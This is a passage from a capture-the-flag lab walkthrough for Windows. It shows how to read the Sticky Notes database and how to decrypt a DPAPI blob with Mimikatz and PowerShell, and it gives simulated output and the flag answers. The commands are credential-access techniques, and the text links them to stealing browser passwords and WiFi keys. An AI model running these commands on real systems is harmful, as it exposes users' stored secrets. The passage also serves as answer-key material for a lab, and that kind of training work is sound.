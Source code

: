 ### Attack Method: Sticky Notes Database Access

```powershell
# Navigate to Sticky Notes location
cd "$env:LOCALAPPDATA\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState"

# View plum.sqlite (Sticky Notes database)
type plum.sqlite

# Or use SQLite commands if available
# sqlite3 plum.sqlite "SELECT * FROM Note;"
```

**Screenshot Simulation:**
```
SQLite format 3
Sticky Note: Remember the flag is FLAG{WEEPINBELL56632373}
```

**Why:** Sticky Notes are often used for passwords and sensitive information.

---

## FLAG 27: DPAPI Blob (40 points - Hard)
**Location:** DPAPI Blob  
**Flag:** FLAG{TENTACRUEL90563793}

### Attack Method: DPAPI Decryption

```powershell
# Using Mimikatz for DPAPI
mimikatz # sekurlsa::dpapi

# Decrypt the blob
mimikatz # dpapi::blob /in:C:\Users\Public\Documents\dpapi_flag.bin

# Alternative: PowerShell DPAPI decryption (if running as same user)
$encryptedBytes = [System.IO.File]::ReadAllBytes("C:\Users\Public\Documents\dpapi_flag.bin")
$decryptedBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
[System.Text.Encoding]::UTF8.GetString($decryptedBytes)
```

**Screenshot Simulation:**
```
mimikatz # dpapi::blob /in:C:\Users\Public\Documents\dpapi_flag.bin
[*] Decrypted data: FLAG{TENTACRUEL90563793}
```

**Why:** DPAPI is Windows' data protection API. Understanding it is crucial for extracting Chrome passwords, WiFi keys, and other encrypted data.

---

## Advanced Attack Chains
